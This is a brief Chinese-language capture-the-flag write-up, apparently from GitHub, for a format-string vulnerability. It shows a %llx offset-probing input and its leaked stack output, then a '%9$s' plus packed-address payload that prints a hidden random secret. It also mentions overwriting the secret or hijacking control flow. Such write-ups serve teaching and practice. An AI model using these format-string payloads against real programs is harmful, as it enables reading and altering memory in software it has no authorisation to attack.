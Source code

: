 
格式化漏洞，可以使用格式化打印出secret地址对应的随机数

首先使用以下格式测试输入对应的位置

```
%0$llx.%1$llx.%2$llx.%3$llx.%4$llx.%5$llx.%6$llx.%7$llx.%8$llx.%9$llx
```

得到输出
```
%0$llx.a.0.0.a.7c.300000380.38000000380.252e786c6c243025.32252e786c6c2431please input the secret:
```
可以看到第8个位置就是我们的输入，那么第9个位置可以控制为目标地址的字符串

使用如下格式打印第9个位置的字符串即secret
```
"%9$saaaa"+p64(secret_addr)
```
即可解题

值得注意的是，如果随机数中有0字节，则导致失败，所以多试几次等随机数不包含0字节或最后一个是0字节;)

也可以通过修改secret解题，要注意逐字节修改，或逐字(int16_t)修改，否则会由于一次传输巨量数据导致大概率中断。

当然也可以劫持控制流;-)
